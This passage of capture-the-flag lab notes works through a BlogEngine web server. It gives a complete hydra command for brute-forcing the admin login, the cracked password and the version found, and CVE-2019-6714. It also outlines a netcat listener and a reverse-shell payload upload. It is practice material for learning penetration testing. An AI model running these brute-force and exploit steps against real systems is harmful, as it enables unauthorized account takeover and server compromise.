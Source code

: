 "Now we know the request type and have a URL for the login form, we can get started brute-forcing an account. Run the following command but fill in the blanks:""

hydra -l (username) -P /usr/share/wordlists/(wordlist) (ip) http-post-form

Q: Guess a username, choose a password wordlist and gain credentials to a user account!

Pulled URL and cookie from Burp "/Account/login.aspx:"

Added ' :Login Failed ' to ensure Hydra moves on from each failed attempt.
Added -vv to turn on verboise mode.

In the cookie, I've set the "Name" field to ^USER^ and "Password" field to ^PASS^ 

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.44.152 http-post-form "/Account/login.aspx:__VIEWSTATE=54As4GFCqjGQGRbh9x7p0JNYvP%2B%2FWYn8j0cgScQS%2FAETVoSDvDYb2jlruIqzrWu%2BFKXaRDQHiCzou6Bwih4wO%2Flpe%2B7gsWB%2FMi5Y8eoy4DpuwR2bHgGVFlsHNNvGI8Dplh3kdQhPd%2FvhfA3jGzbrRpq71XPpAN52VHLRfmGNGrXgcS0f&__EVENTVALIDATION=pTDpOJM1eosWaKomMwNkAu0p7SKMFK6s9h9gOoJgd5JW94cM%2FvcianYE9uu7SmmJHRfy2akgVkIJNAB0Zdu%2BHwcRsIZWkOdIlyKPF7kZacVMKvMwlNVtHDKB3ZaejVQHJM12Aa3W1RLRe7mtING9aEYCmdSJu8uYEV1PUbBGByebLRt1&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -vv

![[Pasted image 20221201122947.png]]

A: `1qaz2wsx`

**TASK 3**

Q:  Now you have logged into the website, are you able to identify the version of the BlogEngine?

Inspecting the source code we can easily find the version of BlogEngine being run:
![[Pasted image 20221201123720.png]]

A: `3.3.6.0`

  
Use the [exploit database archive](http://www.exploit-db.com/) to find an exploit to gain a reverse shell on this system.

What is the CVE?

![[Pasted image 20221201124723.png]]

A: `CVE-2019-6714`

  
Using the public exploit, gain initial access to the server.

Q: Who is the webserver running as?

As per the details listed on CVE-2019-6714

![[Pasted image 20221201124953.png]]

Started netcat listener on port 4445

![[Pasted image 20221201125709.png]]

Navigated to: http://10.10.44.152/admin/app/editor/editpost.cshtml
Uploaded the payload using the file manager button on the tool bar.

